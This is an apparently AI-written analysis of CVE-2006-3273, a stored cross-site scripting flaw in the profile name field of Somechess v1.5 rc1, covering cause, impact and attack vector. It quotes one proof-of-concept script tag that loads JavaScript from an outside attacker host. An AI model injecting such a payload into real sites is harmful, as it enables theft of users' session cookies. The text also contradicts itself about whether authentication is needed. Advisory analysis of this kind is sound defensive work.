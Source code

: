 Based on the provided information, here's an analysis of CVE-2006-3273:

**Root Cause of Vulnerability:**
The root cause of the vulnerability is the lack of sanitization of user-supplied input in the "New name" profile input box of the Somechess v1.5 rc1 application.

**Weaknesses/Vulnerabilities Present:**
- **Cross-Site Scripting (XSS):** The application is vulnerable to stored XSS. This means that an attacker can inject malicious JavaScript code into the profile input box, and this code will be stored in the database and executed when other users view the affected profile.

**Impact of Exploitation:**
- **Session Disclosure:** The primary impact of exploiting this vulnerability, as highlighted, is session disclosure. The injected malicious JavaScript could be used to steal users' session cookies or other sensitive information.
- **Arbitrary JavaScript Execution:** An attacker could execute arbitrary JavaScript in the context of the victim's browser when they view the profile containing the malicious payload. This could lead to various malicious activities, including redirecting users, modifying page content, or stealing sensitive data.

**Attack Vectors:**
- **Remote Attack Vector:** The vulnerability can be exploited remotely.
- **Input Field:** The specific attack vector is the "New name" profile input box.

**Required Attacker Capabilities/Position:**
- The attacker needs the ability to access the application and modify their profile.
- No authentication is required for the attack, meaning any user can perform the attack, including an attacker who creates an account on the application to launch an attack.

**Technical Details:**

- The provided proof-of-concept (PoC) code demonstrates how an attacker could inject malicious JavaScript:
  ```html
  <SCRIPT SRC=http://youfucktard.com/xss.js></SCRIPT>
  ```
- The vulnerability exists because the application fails to properly sanitize the input before storing and displaying it.

**Additional Notes:**
- The vulnerability report mentions that the application may also have database import issues and PHP errors. However, these are not directly related to the XSS vulnerability itself.
- The provided CVSS score indicates a low risk due to the high attack complexity, although this is contradictory to the provided description where the attacker does not need authentication. The partial integrity impact highlights the risk of data manipulation resulting from the attack.